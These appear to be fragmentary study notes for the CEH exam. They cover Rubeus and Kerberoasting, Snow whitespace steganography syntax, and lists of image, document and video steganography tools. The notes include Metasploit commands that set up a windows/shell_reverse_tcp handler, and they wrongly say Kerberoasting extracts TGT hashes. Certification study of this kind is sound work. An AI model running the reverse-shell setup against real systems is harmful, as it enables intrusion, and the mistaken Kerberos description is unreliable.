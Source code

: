 Rubeus is a tool for exploiting Kerberos weaknesses in Windows environments. Kerberoasting is a method to extract ticket granting ticket (TGT) hashes from AD. Attackers target service accounts with associated Kerberos service principal names (SPNs). TGTs are requested from the DC for these accounts, then cracked offline to reveal user passwords. Kerberoasting exploits weak service account passwords and the nature of Kerberos authentication.
### References
use exploit/multi/handler 
set payload windows/shell_reverse_tcp
set LHOST 10.10.1.13 
set LPORT 8888 run



CEH eng q2
ans
![[Pasted image 20250728142516.png]]

##  Steganography

### Whitespace Steganography (imp)
- Snow (refer 886 )
	- syntax 
		- `` snow [ -CQS ] [ -p passwd ] [ -l line-len ] [ -f file | -m message ] [ infile [ outfile ]] ``
- example :
	- ``snow -C-m "My swiss bank account number is 45367192746" -p "magic" readme.txt readme1.txt ``
	  
### Image Steganography (imp)
- Image Steganography Tools
	- OpenStego
- Some examples of image steganography tools are as follows: 
	- StegOnline (https://georgeom.net) 
	- Coagula (https://www.abc.se) 
	- SSuite Picsel (https://www.ssuitesoft.com) 
	- CryptaPix (https://www.briggsoft.com)

### Document Steganography Tools
-  StegoStick 
- Some examples of document steganography tools are listed as follows: 
	- StegJ (https://sourceforge.net) 
	- Office XML (https://www.irongeek.com) 
	- SNOW (https://darkside.com.au) 
	- Data Stash (https://www.skyjuicesoftware.com)

### Video Steganography 
- OmniHide Pro 
- Some examples of video steganography tools are as follows: 
	- RT Steganography (https://sourceforge.net) 
	- StegoStick (https://sourceforge.net)  
	- OpenPuff (https://embeddedsw.net) 
	- MSU StegoVideo (http://www.compression.ru)
### Steganography Detection Tools
 -  zsteg (supports only PNG and BMP )